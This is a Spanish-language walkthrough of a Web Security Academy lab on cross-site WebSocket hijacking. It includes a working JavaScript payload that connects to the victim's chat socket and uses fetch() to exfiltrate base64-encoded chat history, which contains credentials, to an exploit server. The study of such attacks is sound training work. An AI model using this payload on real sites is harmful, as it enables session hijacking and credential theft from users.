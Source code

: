 El chat en vivo de este laboratorio es vulnerable al secuestro de WebSockets entre sitios (CSWSH). Para solucionar el problema, inicie sesión en la cuenta de la víctima.

Para ello, utilice el servidor de exploits proporcionado para ejecutar un ataque CSWSH que exfiltre el historial de chat de la víctima al servidor predeterminado de Burp Collaborator. El historial de chat contiene las credenciales de inicio de sesión en texto plano.


iniciamos el chat y de inmediato podemos recopilar información. sabemos que se llama `Hal Pline` y que su estatus es `CONNECTED`
![[Pasted image 20250721132918.png]]

analizando la solicitud vemos el encabezado `X-Frame-Options: SAMEORIGIN` indica que la página web solo puede ser mostrada en un frame si el sitio que intenta incrustarla está en la misma origen (dominio, esquema y puerto) que la página original
![[Pasted image 20250721133525.png]]

analizando todos los endpoints de la web nos damos cuenta que todos cuenta con la etiqueta `X-Frame-Options: SAMEORIGIN` pero al analizar la solicitud de un post encontramos un endpoints diferente. 
![[Pasted image 20250721133911.png]]

`https://cms-0a9500be04bf9ea5811070e6005900ee.web-security-academy.net` 
este endpoint nos lleva a una web de login donde podemos hacer una comprobación rápida para vulnerabilidades CSRF y logramos identificarla de la siguiente manera.
![[Pasted image 20250721134247.png]]

en el WebSockets History podemos ver el mensaje que hacemos al servidor y su contenido
![[Pasted image 20250721134538.png]]

y también el mensaje que regresa el servido
![[Pasted image 20250721134733.png]]

podemos enviar esta petición al repeater para ver como la respuesta y todos los mensajes que hemos intercambiado con el WebSocket
![[Pasted image 20250721162752.png]]

ahora bien. podemos ver que la dirección del websocket esta definida en la cabecera de respuesta del mensaje lo cual será útil para luego hacer nuestro ataque CSRF
![[Pasted image 20250721163118.png]]

por ultimo encontramos la funcion del chat 
![[Pasted image 20250721164204.png]]

necesitamos hacer algunas modificaciones al codigo.

```python
let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

newWebSocket.onopen = function (evt) {
writeMessage("system", "System:", "No chat history on record");
newWebSocket.send("READY");
res(newWebSocket);
}

newWebSocket.onmessage = function (evt) {
var message = evt.data;
};
```

no necesitamos el atributo `chatForm.getAttribute("action")` ya que este será la dirección de nuestro websocket. es decir la web de login que hemos encontrado.  tampoco vamos a necesitar el `writeMessage` porque no queremos escribir un mensaje. solo queremos enviarlo

```python
<script> 
var newWebSocket = new WebSocket(
"wss://0a8d00d8044c76f98091034900f9004e.web-security-academy.net/chat"
);

newWebSocket.onopen = function (evt) {
	newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
	var message = evt.data;
	fetch(
	"https://exploit-0a130040047576bc80e70294011400d5.exploit-server.net/exploit?messge=" + btoa(message)
	);
}; 
</script>
```

enviamos nuestra carga útil usando el servidor proporcionado por la web
![[Pasted image 20250721171825.png]]

ahora analizamos los log del servidor y encontramos una solicitud `GET` con un mensaje de respuesta
![[Pasted image 20250721171806.png]]

de codeamos el mensaje usando burpsuite y obtenemos nuestro mensaje. ahora estamos conectados y en el chat con `Hal Pline`
![[Pasted image 20250721172053.png]]

ahora bien. si tomamos de nuevo la solicitud de la web `https://cms-0a9500be04bf9ea5811070e6005900ee.web-security-academy.net` donde encontramos el CSRF podemos ver que el endpoint. indica que tiene un estatus `200 OK` es decir. existe el endpoint. la solicitud se realiza correctamente por lo que podemos inyectar aqui nuestra carga 
![[Pasted image 20250721172930.png]]